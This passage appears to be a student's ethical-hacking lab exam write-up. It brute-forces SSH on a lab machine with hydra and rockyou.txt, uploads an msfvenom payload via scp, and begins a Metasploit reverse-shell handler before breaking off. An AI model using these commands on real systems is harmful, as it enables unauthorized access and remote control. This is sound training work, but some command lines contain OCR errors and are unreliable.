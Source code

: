 

Using hydra and the rockyou.txt wordlist, I could perform a brute-force attack on the ssh service with the username richmond.

The brute-force attack was successtul and returned the credentials as richmond:password

hydra -l richmond -e n -p /usr/share/wordlists/rockyou.txt10.0.2.20
ssh

![IMG_4681](https://github.com/DionAlexander1/Ethical-Hacking-Lab-Final-Exam/assets/105241007/85bcc513-0b55-4581-a5be-18d2f1be3abe)


Now I was able to log into ssh using the username and password.
ssh richmond@10.0.2.20
password

After logging into ssh, I could ls to view many files and directories.

![IMG_4682](https://github.com/DionAlexander1/Ethical-Hacking-Lab-Final-Exam/assets/105241007/5ad3f2fe-9949-4dfb-8165-14ca2c487474)




There is another text docment that i can read which gives me information on how to obtain the red belt and black belt.

Type noteToRichmond.txt

![IMG_4461](https://github.com/DionAlexander1/Ethical-Hacking-Lab-Final-Exam/assets/105241007/90c88e37-4833-4883-aeb8-099a23b54dc8)



Next, i will open a new terminal and craft a payload with msfvenom to be sent and executed on the machine for a reverse shell.

![IMG_4683](https://github.com/DionAlexander1/Ethical-Hacking-Lab-Final-Exam/assets/105241007/042b0525-e5a8-4de2-848d-fd5403041c93)



After the payload has been created, i can send it over to the machine via ssh using the following command.

scp givemethebelt.exe richmond@10.0.2.20:
password

![IMG_4685](https://github.com/DionAlexander1/Ethical-Hacking-Lab-Final-Exam/assets/105241007/92350349-ff83-43b3-ae44-5008b8e28044)



I can confirm that the pavload was successfully transferred by going back to my other terminal with the active ssh session and typing ls.
Now that I have confirmed the payload is on the machine, I can start my reverse TCP handler in Metasploit.

Msfconsole

Use exploit/multi/handler

Set payload generic/shell reverse_tcp

Set lhost 10.0.2.20
